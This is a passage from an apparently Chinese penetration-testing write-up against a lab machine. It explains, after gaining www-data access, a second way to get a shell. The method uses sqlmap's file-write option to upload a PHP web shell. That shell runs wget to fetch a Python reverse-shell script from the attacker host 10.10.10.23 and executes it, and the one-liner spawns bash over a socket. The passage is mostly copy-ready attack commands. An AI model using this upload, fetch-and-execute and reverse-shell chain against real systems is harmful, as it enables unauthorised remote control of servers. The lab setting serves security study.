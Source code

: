 [![](assets/1703831504-16ce136de3546b8ca5ed7c7738bce20d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163915-6a90f82a-a493-1.png)

> 拿到 www-data 权限

<5>此外，曾经也遇到过类似问题，解决方法是换一种姿势，sqlmap 上传 get2255.php，浏览器访问/get2255.php，让靶机在 tmp 下 wget 反弹 shell 后执行，就可以监听到反弹 shell

```plain
//上传 shell
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --file-write='/home/wsec/0X0CpWnOS2/get2255.php' --file-dest='/var/www/get2255.php'

//shell2255.py
export RHOST="10.10.10.23";export RPORT=2255;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

//get2255.py
<?php system('cd /tmp;wget 10.10.10.23:9000/shell2255.py;chmod +x shell2255.py;./shell2255.py')?>
```

